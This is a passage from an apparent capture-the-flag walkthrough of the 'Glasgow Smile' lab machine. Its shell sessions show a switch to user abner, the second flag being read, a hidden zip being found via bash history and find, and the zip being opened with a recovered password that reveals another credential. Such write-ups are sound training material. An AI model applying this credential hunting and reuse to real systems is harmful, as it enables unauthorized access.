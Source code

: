 Now we can login as user <b>abner</b> and read our second flag.

```r
rob@glasgowsmile:~$ su - abner
Password:

abner@glasgowsmile:~$ id
uid=1001(abner) gid=1001(abner) groups=1001(abner)

abner@glasgowsmile:~$ cat user2.txt
JKR{0286c47edc9bfdaf643f5976a8cfbd8d}
```
## Privilege Escalation (user “Penguin”)

We already got our two flags and now it's time for the third. This is quite different from the other two because we do not have the clue right there in front. This needs some enumeration. I started with reading the <b>bash_history</b> of user abner.

<center><br>
<img src="/assets/img/uploads/glasgow-smile/bash-history.png">
</center>

Here, we can see a file named <b>.dear_penguins.zip.</b> This file seems to be interesting, so I searched for this file using the <b>find</b> command.

```r
abner@glasgowsmile:~$ find / -print 2>/dev/null | grep -i ".dear_penguins.zip"
/var/www/joomla2/administrator/manifests/files/.dear_penguins.zip
```

I extracted the <b>.dear_penguins.zip</b> into the <b>/tmp</b> directory. This contains some random string in the end, which can be a password.

```r
abner@glasgowsmile:~$ unzip /var/www/joomla2/administrator/manifests/files/.dear_penguins.zip -d /tmp
Archive:  /var/www/joomla2/administrator/manifests/files/.dear_penguins.zip
[/var/www/joomla2/administrator/manifests/files/.dear_penguins.zip] dear_penguins password: I33hope99my0death000makes44more8cents00than0my0life0

  inflating: /tmp/dear_penguins      

abner@glasgowsmile:~$ cat /tmp/dear_penguins
My dear penguins, we stand on a great threshold! Its okay to be scared; many of you wont be coming back. Thanks to Batman, the time has come to punish all of Gods children! First, second, third and fourth-born! Why be biased?! Male and female! Hell, the sexes are equal, with their erogenous zones BLOWN SKY-HIGH!!! FORWAAAAAAAAAAAAAARD MARCH!!! THE LIBERATION OF GOTHAM HAS BEGUN!!!!!
scf4W7q4B4caTMRhSFYmktMsn87F35UkmKttM5Bz
abner@glasgowsmile:~$
```